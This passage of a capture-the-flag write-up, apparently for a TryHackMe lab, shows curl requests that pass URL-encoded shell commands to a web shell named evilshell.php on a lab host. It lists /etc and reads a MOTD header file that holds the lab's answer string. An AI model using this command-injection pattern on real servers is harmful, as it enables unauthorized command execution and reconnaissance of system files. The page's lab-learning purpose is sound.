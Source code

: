 ```
       
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.27.205/evilshell.php?commandString=cd+%2Fetc%3B+ls
<!doctype html>
<html lang="en">

........
         <button type="submit" class="btn btn-primary w-100">Submit</button>
NetworkManager
......
//[*] This is the file we need to check
update-motd.d
update-notifier
updatedb.config
 .......
</html>  
```

- But we cat unsuccessfully. So maybe this is a folder not a file right !
- Now we try the command `cd /etc/update-motd.d ; ls` and it works

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.27.205/evilshell.php?commandString=cd+%2Fetc%2Fupdate-motd.d+%3B+ls                                                                     
<!doctype html>
<html lang="en">
                    <button type="submit" class="btn btn-primary w-100">Submit</button>
00-header //[*] This the hint that tryhackme shows us right!
10-help-text
50-landscape-sysinfo
50-motd-news
80-esm
   ......
</html> 
```

- Now we just to cat the file: cat /etc/update-motd.d/00-header

```
#!/bin/sh
#
.......
[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

DR PEPPER MAKES THE WORLD TASTE BETTER!  

```
